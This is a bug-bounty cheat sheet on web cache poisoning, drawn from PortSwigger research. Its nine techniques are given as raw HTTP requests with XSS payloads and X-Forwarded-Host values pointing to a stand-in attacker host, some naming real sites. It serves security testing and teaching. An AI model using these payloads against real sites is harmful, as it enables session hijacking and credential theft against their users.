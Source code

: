 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed) and its value reflected in Response   
* Header with Cache (unkeyed) and its value reflected in Response   
* Cookie with Cache (unkeyed) and its value reflected in Response   

## Impact
* Session Hijacking (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md) + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))
* Password Steal (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md))
* Session Hijacking (Web Cache Poisoning + Parameter + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))
* Session Hijacking (Web Cache Poisoning + Http Parameter Pollution + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))

## How to exploit
Note: Cache-Control: public, no-cache or X-cache: miss, hit
Note: remove cache-buster, after cache hit to work bellow method
1. Basic Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil-website.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Basic Cookie poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
Cookie: sid=a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

3. Multiple Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://evil-website.com/
```

4. User-agent Selective poisoning (unknown header)
```
GET / HTTP/1.1
Host: www.vuln.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>

### Response:
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

5. query parameter poisoning
```
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1
Host: www.vuln.com

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<href="https://www.vuln.com/?utm_content='/><script>alert(1)</script>">
```

6.Parameter cloaking (Web Cache Poisoning + Http Parameter Pollution)
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
Host: www.vuln.com

### Response:
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
alert(1)({"country" : "United Kingdom"})
```

7.fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
…
callback=alert(1)

### Response:
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
alert(1)({"country" : "United Kingdom"})
```

8. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil

### Response:
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

### Response:
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

9. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil

### Response:
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

### Response:
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
